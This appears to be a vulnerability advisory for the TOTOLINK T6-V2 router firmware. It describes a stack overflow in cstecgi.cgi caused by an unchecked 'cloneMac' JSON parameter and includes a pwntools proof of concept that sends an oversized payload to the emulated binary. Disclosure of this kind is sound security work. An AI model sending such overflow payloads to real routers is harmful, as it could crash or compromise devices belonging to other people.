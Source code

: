 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_0041621c` (at address 0x41621c) gets the JSON parameter `cloneMac`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529110324018.png" alt="image-20220529110324018" style="zoom:67%;" />

When parameter `proto` is equal to `1`, program will enter the danger if branch at line 125. Then the program gets the parameter `cloneMac`, splits it, and connects the segmented string to local variables in the stack without checking its length.

<img src="img/image-20220529110510252.png" alt="image-20220529110510252" style="zoom:67%;" />

## PoC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setWizardCfg",
    "proto": "1",
    "cloneMac": "A"*0x400 + ":" + "A"
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

